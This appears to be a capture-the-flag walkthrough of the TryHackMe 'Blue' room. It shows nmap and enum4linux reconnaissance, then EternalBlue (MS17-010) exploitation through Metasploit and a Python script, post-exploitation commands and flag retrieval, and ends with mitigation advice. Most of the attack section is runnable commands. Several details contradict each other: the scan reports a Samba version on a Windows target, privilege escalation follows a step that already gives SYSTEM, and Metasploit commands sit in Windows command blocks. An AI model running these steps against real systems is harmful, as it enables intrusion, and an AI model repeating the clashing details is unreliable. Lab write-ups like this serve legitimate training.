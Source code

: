 # Blue - TryHackMe

## Overview
Blue is a beginner-friendly room that focuses on Windows privilege escalation and EternalBlue exploitation.

## Reconnaissance
Let's start with a basic port scan to identify services.

```bash
nmap -sC -sV -oN nmap.txt 10.10.10.10
```

### Results:
- Port 135: RPC
- Port 139: NetBIOS
- Port 445: SMB
- Port 3389: RDP

## SMB Enumeration
Let's enumerate the SMB service for potential vulnerabilities.

```bash
smbclient -L //10.10.10.10 -N
enum4linux -a 10.10.10.10
```

### Findings:
- SMB version: Samba 3.0.20
- Anonymous access available
- Multiple shares discovered

## Vulnerability Assessment
The target appears to be vulnerable to MS17-010 (EternalBlue).

### Confirming Vulnerability:
```bash
nmap --script smb-vuln-ms17-010 10.10.10.10
```

## Exploitation
Using Metasploit to exploit the EternalBlue vulnerability.

### Metasploit Setup:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.10
set LHOST 10.10.14.5
exploit
```

### Manual Exploitation:
```bash
# Using EternalBlue exploit
python3 eternalblue.py 10.10.10.10
```

## Post-Exploitation
After gaining initial access, let's escalate privileges.

### System Information:
```cmd
systeminfo
whoami
net user
```

### Privilege Escalation:
```cmd
# Check for available exploits
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```

## Root Access
Successfully gained SYSTEM privileges through the EternalBlue exploit.

### Final Steps:
```cmd
# Access user flag
type C:\Users\haris\Desktop\user.txt

# Access root flag
type C:\Users\Administrator\Desktop\root.txt
```

## Key Learnings
- SMB vulnerability exploitation
- EternalBlue attack methodology
- Windows privilege escalation
- Post-exploitation techniques
- Metasploit usage

## Tools Used
- Nmap
- Enum4linux
- Metasploit
- EternalBlue exploit
- Windows commands

## Mitigation
- Apply MS17-010 patch
- Disable SMBv1
- Implement network segmentation
- Regular security updates
- Network monitoring

---
*This room demonstrates the importance of keeping systems updated and patched against known vulnerabilities.*
